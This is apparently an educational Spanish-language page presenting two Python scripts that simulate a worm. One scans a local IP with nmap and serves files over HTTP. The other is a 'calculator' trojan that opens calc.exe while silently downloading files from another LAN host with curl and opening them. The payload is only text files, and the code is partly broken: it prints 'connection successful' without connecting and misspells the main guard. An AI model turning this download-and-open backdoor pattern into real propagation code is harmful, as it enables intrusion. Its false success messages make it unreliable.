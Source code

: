 # 👹 INTERACCION CON SISTEMAS LOCAL Y REMOTO - MALWARE -               P4Iciente\_WORMS\_0.py

PACIENTE 0 INFECTADA  CON SIMULACION DE MALWARE TIPO WORMS EL CUAL AFECTARA A OTROS PACIENTES DE SU RED LOCAL ESCANEANDO Y ENCONTRANDO PUERTAS ABIERTAS:

````python
// Some code

```python
#!SIMULACION DE PROGRAMA INFECTADO CON MALWARE GUSANO, EL CUAL ESCANEARA LOS PUERTOS Y LOGRARA UNA CONECCION POR UNO QUE ABRIO LA MAQUINA VICTIMA CON UNA APLICACION QUE PRESENTA OTRA VULNERABILIDAD HABRIENDO LA COMUNICACION POR SUS PUERTOS Y LOGRNDO ASI LA PROPAGACION DEL GUSANO EN OTRO DISPOSITIVO DE LA RED LOCAL
#! P4Iciente_WORMS_0.py - By P4IM0N

import subprocess  # Importa la librería subprocess para ejecutar comandos en el sistema.
from tabulate import tabulate  # Importa la función tabulate para formatear los resultados en una tabla.
import os  # Importa la librería os para trabajar con operaciones del sistema operativo.
import shutil  # Importa la librería shutil para operaciones de archivo y directorio.
import pyautogui  # Importa la librería pyautogui para automatizar acciones en la interfaz gráfica.
import http.server  # Importa la librería http.server para crear un servidor web.
import socketserver  # Importa la librería socketserver para manejar conexiones de red.
import threading  # Importa la librería threading para trabajar con hilos de ejecución paralela.


#------------------------------------------------------------
banner = '''

__________  _____ .___       .__               __             __      __________ __________    _____    _________   _______   
\______   \/  |  ||   | ____ |__| ____   _____/  |_  ____    /  \    /  \_____  \______   \  /     \  /   _____/   \   _  \  
 |     ___/   |  ||   |/ ___\|  |/ __ \ /    \   __\/ __ \   \   \/\/   //   |   \|       _/ /  \ /  \ \_____  \    /  /_\  \ 
 |    |  /    ^   /   \  \___|  \  ___/|   |  \  | \  ___/    \        //    |    \    |   \/    Y    \/        \   \  \_/   !
 |____|  \____   ||___|\___  >__|\___  >___|  /__|  \___  >____\__/\  / \_______  /____|_  /\____|__  /_______  /____\_____  /
              |__|         \/        \/     \/          \/_____/    \/          \/       \/         \/        \/_____/     \/ 
'''
print(banner)

#------------------------------------------------------------
# Define una función llamada iniciar_servidor que toma un argumento "puerto".
def iniciar_servidor(puerto):
    Handler = http.server.SimpleHTTPRequestHandler  # Define el manejador de peticiones para el servidor web.

    # Crea un servidor HTTP en el puerto especificado.
    with socketserver.TCPServer(("", puerto), Handler) as httpd:
        print(f"Sirviendo en el puerto {puerto}")  # Imprime un mensaje indicando en qué puerto se está sirviendo.
        httpd.serve_forever()  # Inicia el servidor web y lo mantiene en ejecución indefinidamente.


#------------------------------------------------------------
# Define una función llamada escanear_puertos que toma un argumento "ip".
def escanear_puertos(ip):
    comando = f"nmap -Pn {ip}"  # Define un comando de escaneo de puertos usando la herramienta nmap.
    resultado = subprocess.getoutput(comando)  # Ejecuta el comando y obtiene la salida.

    puertos_abiertos = []  # Crea una lista para almacenar los puertos abiertos.
    for linea in resultado.splitlines():  # Itera sobre las líneas del resultado.
        if "/tcp" in linea and "open" in linea:  # Si la línea contiene "/tcp" y "open":
            partes = linea.split()  # Divide la línea en partes.
            puerto = int(partes[0].split("/")[0])  # Obtiene el número de puerto.
            puertos_abiertos.append(puerto)  # Agrega el puerto a la lista de puertos abiertos.

    return puertos_abiertos  # Devuelve la lista de puertos abiertos.


#------------------------------------------------------------
# Define una función llamada replicar_archivo que toma dos argumentos: "ip_objetivo" y "puerto_objetivo".
def replicar_archivo(ip_objetivo, puerto_objetivo):
    archivo_a_replicar = "gusano_0_0.txt"  # Define el nombre del archivo a replicar.

    try:  # Intenta realizar la siguiente operación:
        print(f"Conexión exitosa al puerto {puerto_objetivo} en {ip_objetivo}")  # Imprime un mensaje de éxito.
        print(f"Archivo '{archivo_a_replicar}' enviado a través del puerto {puerto_objetivo}")  # Imprime información sobre el archivo enviado.

        directorio_destino = os.path.dirname(os.path.abspath(__file__))  # Obtiene el directorio actual del script.
        numero_copias = 5  # Define el número de copias a crear.

        for i in range(numero_copias):  # Itera desde 0 hasta (numero_copias - 1).
            nombre_copia = f"{archivo_a_replicar[:-6]}_{i+1}.txt"  # Genera nombres de copia únicos.
            shutil.copy(archivo_a_replicar, os.path.join(directorio_destino, nombre_copia))  # Copia el archivo a un nuevo nombre.

            if os.path.exists(nombre_copia):  # Si la copia del archivo existe:
                subprocess.run(["xdg-open", os.path.join(directorio_destino, nombre_copia)])  # Abre la copia del archivo.
                pyautogui.sleep(5)  # Espera durante 5 segundos.
                pyautogui.hotkey('alt', 'space')  # Activa la combinación de teclas 'Alt + Espacio'.
                pyautogui.press('x')  # Presiona la tecla 'x' para cerrar la ventana.

    except ConnectionRefusedError:  # Maneja una excepción si no se puede conectar al puerto objetivo.
        print(f"No se pudo conectar al puerto {puerto_objetivo} en {ip_objetivo}")  # Imprime un mensaje de error.

#------------------------------------------------------------
# Define una función llamada mostrar_resultados que toma un argumento "resultados".
def mostrar_resultados(resultados):
    print('//////////////EL INTENTO INGRESAR POR LOS PUERTOS ABIERTOS QUE SE ESCANEARON //////////////')
    headers = ["IP", "Puerto"]  # Define las cabeceras de la tabla.
    print(tabulate(resultados, headers=headers, tablefmt="grid"))  # Imprime los resultados en formato de tabla.

#------------------------------------------------------------
ip_objetivo = "192.168.0.20"  # Define la IP objetivo.

#------------------------------------------------------------
# Crea un nuevo hilo para ejecutar la función iniciar_servidor en segundo plano.
thread_servidor = threading.Thread(target=iniciar_servidor, args=(80,))
thread_servidor.start()

#------------------------------------------------------------
# Escanea los puertos abiertos en la IP objetivo y almacena los resultados.
puertos_abiertos = escanear_puertos(ip_objetivo)

# Replica el archivo en cada puerto abierto.
for puerto in puertos_abiertos:
    replicar_archivo(ip_objetivo, puerto)

# Muestra los resultados en una tabla.
mostrar_resultados([(ip_objetivo, puerto) for puerto in puertos_abiertos])
#------------------------------------------------------------


```
````

PACIENTE 1 (CALCULADORA INFECTADA) EL CUAL SIMULA TENER UN TROYANO PROBOCANDO UN BACKDOORS POR LO QUE ES PROPAGADO EL MALWARE DE TIPO GUSANO WORMS EN ELLA PROVENIENTE DEL PACIENTE 0 INFECTADO:

````python
// Some code

```python
#!PROGRAMA DE CALCULADORA LA CUAL TIENE UN FALLO DE VULNERABILIDAD LA CUAL SOLICTA ATRAVES DE SU PUERTO DESCARGAS DE ARCHIVO DE OTRA PC EN SU MISMAA RED
#! calculadoraConVULNERAVILIDAD.PY -  bY P4IM0N

import subprocess  # Importa la librería subprocess para ejecutar comandos en el sistema.
import time  # Importa la librería time para trabajar con el tiempo.
import os  # Importa la librería os para trabajar con operaciones del sistema operativo.
import socket  # Importa el módulo socket para obtener la información del puerto local.

# Define una función llamada abrir_calculadora sin argumentos.
def abrir_calculadora():
    # Abre la calculadora en primer plano usando la herramienta "calc.exe".
    subprocess.Popen("calc.exe", shell=True)

# Define una función llamada descargar_archivos que toma dos argumentos: "direccion_ip" y "puerto".
def descargar_archivos(direccion_ip, puerto):
    while True:  # Inicia un bucle infinito.
        for i in range(5):  # Itera desde 0 hasta 4.
            time.sleep(4)  # Espera durante 4 segundos.

            # Crea un nombre de archivo único con el valor de "i".
            nombre_archivo = f"gusano_0_{i}.txt"

            # Obtén el número de puerto local.
            puerto_local = obtener_puerto_local()

            # Imprime el puerto local por el que está llegando la descarga.
            print(f"Descargando archivo a través del puerto local {puerto_local}")

            # Construye un comando de descarga usando "curl" y el nombre de archivo.
            comando = f"curl http://{direccion_ip}:{puerto}/gusano_0_{i}.txt -O {nombre_archivo} "
            
            # Ejecuta el comando de descarga en segundo plano.
            subprocess.Popen(comando, shell=True, stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
            
            # Cuando "i" llega a 4, abre el último archivo en primer plano.
            if i == 3:
                os.system(f"start {nombre_archivo}")  # Abre el archivo en primer plano.

# Función para obtener el número de puerto local.
def obtener_puerto_local():
    # Crea un objeto de socket usando IPv4 (AF_INET) y TCP (SOCK_STREAM).
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # Vincula el socket a la dirección 'localhost' (127.0.0.1) y un puerto efímero asignado automáticamente (0).
    # Cuando se usa 0 como el número de puerto, el sistema operativo elige un puerto disponible automáticamente.
    sock.bind(('localhost', 0))
    
    # Obtiene la información del socket, incluyendo la dirección IP y el número de puerto local.
    _, puerto_local = sock.getsockname()
    
    # Cierra el socket después de obtener la información.
    sock.close()
    
    # Devuelve el número de puerto local que fue asignado automáticamente por el sistema operativo.
    return puerto_local

if __name__ == "main":
    # Entra en esta sección cuando se ejecuta el script directamente (no cuando se importa como módulo).

    # Llama a la función "abrir_calculadora" para abrir la calculadora en primer plano.
    abrir_calculadora()

    # Llama a la función "descargar_archivos" para descargar archivos en segundo plano.
    descargar_archivos('192.168.0.18', 80)


```
````
